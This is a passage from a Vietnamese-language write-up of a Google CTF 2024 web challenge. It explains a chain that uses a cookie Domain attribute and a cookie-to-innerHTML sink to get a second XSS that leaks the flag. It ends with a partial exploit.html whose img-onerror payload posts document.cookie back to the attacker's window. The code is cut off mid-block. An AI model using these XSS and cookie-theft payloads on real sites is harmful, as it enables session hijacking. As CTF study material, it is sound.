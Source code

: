 Trong đó có một nơi mà tainted data có thể flow từ source `document.cookie` (hoặc `localStorage`) đến sink `innerHTML`. Để có thể chèn được data vào Local Storage, ta sẽ cần XSS được sbx origin đó, nhìn lại cách mà game được sandbox thì thay vì bằng iframe như lần trước thì giờ đây nó là 1 window riêng biệt, ta sẽ không thể `win.frames[0].eval(...)` như lần trước được. Vậy thì làm sao đây? Ta vẫn còn `document.cookie`, và nếu như bạn đã quên thì ta có thể specify các thuộc tính cho cookie (như httponly, secure flag, ...), một trong số đó là thuộc tính `Domain`

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/ff1b3759-cea8-41de-8c82-8a3709418335)

Một subdomain sẽ có thể share cookie với một domain hoặc subdomain khác (`A.example.com` có thể share cookie với `B.A.example.com`)

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/168f832f-b751-4d18-8576-6670f6fe4c89)

Để ý rằng tại `shim.html`, nếu ta dùng một origin có dạng `<hash1>-h641507400.0ta1gxvglkyjct11uf3lvr9g3b45whebmhcjklt106au2kgy3e-h641507400.scf.usercontent.goog`, với `hash1` sẽ là hash của payload của ta thì ta sẽ có thể thỏa điều kiện của hash check nhưng vẫn có thể XSS subdomain của sbx origin và set cookie với domain là `0ta1gxvglkyjct11uf3lvr9g3b45whebmhcjklt106au2kgy3e-h641507400.scf.usercontent.goog`. Như thế thì ta có thể lợi dụng XSS để set cookie `password=<XSS>` cho domain `0ta1gxvglkyjct11uf3lvr9g3b45whebmhcjklt106au2kgy3e-h641507400.scf.usercontent.goog` và trigger XSS một lần nữa nhằm lấy flag từ `localStorage`. Tuy nhiên có một điều hơi cấn, `correctPasswordSpan` sẽ không được insert vào DOM cho đến khi password được guess đúng.

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/5e4eb247-fd9e-4478-8f93-85f8543ea42f)

Challenge này đã nhắc cho ta rằng element không cần thiết phải được insert vào DOM để có thể trigger XSS

### Firefox???

Tới đây ta sẽ có `exploit.html` như sau (original exploit from **@Terjang**)

```html
<body>
    <!-- Import crypto functions from the challenge. -->
    <script src="https://game-arcade-web.2024.ctfcompetition.com/static/safe-frame.js"></script>
  
    <script>
      const passwordGameHash = '0ta1gxvglkyjct11uf3lvr9g3b45whebmhcjklt106au2kgy3e-h641507400.scf.usercontent.goog';
      const CHALL_URL = 'https://game-arcade-web.2024.ctfcompetition.com/#1';
      const sleep = d => new Promise(r => setTimeout(r, d));
      (async function () {
        const xss = escape(`xss<img src onerror="opener.opener.postMessage({flag:document.cookie}, '*')">`);
        // const xss = escape(`xss<img src onerror="alert(1)">`);
        const exploit = `<script>document.cookie="password=${xss};Domain=${passwordGameHash};Path=/";alert(123);<\/script>`;
        const hash = await calculateHash('google-ctf', new ArrayBuffer(0), origin);
  
        /**
         * There is a bug that allows to execute on the same site as the password game.
         * Set an XSS inside a cookie and leak admin's cookie.
        */
        const win = open(`http://${hash}-h641507400.${passwordGameHash}/google-ctf/shim.html?origin=${encodeURIComponent(origin)}&cache=1`);
        await sleep(1000);
  
        win.postMessage({ body: exploit, mimeType: 'text/html', salt: new ArrayBuffer(0) }, '*');
        
        // await sleep(3000);
        open(CHALL_URL);
        window.onmessage = e => {
          if (e.data?.flag) {
            console.log(e.data.flag);
```